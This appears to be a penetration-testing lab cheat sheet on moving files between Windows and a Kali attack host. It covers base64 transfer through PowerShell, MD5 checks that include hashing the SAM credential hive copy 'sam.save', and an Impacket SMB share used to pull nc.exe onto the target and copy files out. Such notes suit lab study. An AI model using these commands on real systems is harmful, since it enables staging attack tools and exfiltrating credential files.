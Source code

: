 # Windows - upload to kali

## Transfer via base64

run in windows from where we want to transfer


```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Users\ASUS\Desktop\test.py" -Encoding byte))
<random_string_generated>
```


get that string which generated by above command


```bash
echo paste_that_random_string_generated" | base64 -d > test.py
```


### check integrity

to check file hash in linux

```bash
md5sum file.txt 
```

to verify that hash


```
Get-FileHash C:\sam.save -Algorithm md5
```



## SMB Downloads

^e37ea8

Creating and using an SMB server with Impacket:

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

Accessing the SMB share:

```powershell
copy \\192.168.220.133\share\nc.exe
```

if unauthenticated error then give username and password while making server

```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```
net use n: \\192.168.45.186\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe \\IP\share
        1 file(s) copied.
```